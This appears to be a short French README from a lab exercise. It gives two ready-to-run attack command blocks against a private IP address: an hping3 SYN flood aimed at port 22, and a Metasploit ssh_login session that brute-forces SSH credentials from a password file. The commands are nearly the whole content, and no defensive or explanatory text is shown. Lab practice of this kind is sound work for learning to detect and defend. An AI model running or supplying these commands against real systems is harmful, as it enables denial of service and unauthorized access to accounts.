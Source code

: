 ## Attaque DDoS avec Hping
```bash
hping3 -S --flood -p 22 10.0.0.108
```
<p align="center">
    <img src="HPING.png" alt="HPING" style="width: 800px;" />
</p>

## Attaque avec Metasploit 
```bash
msfconsole
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 10.0.0.108
set USERNAME user
set PASS_FILE passwords.txt
run
```
<p align="center">
    <img src="MSF.png" alt="MSF" style="width: 800px;" />
</p>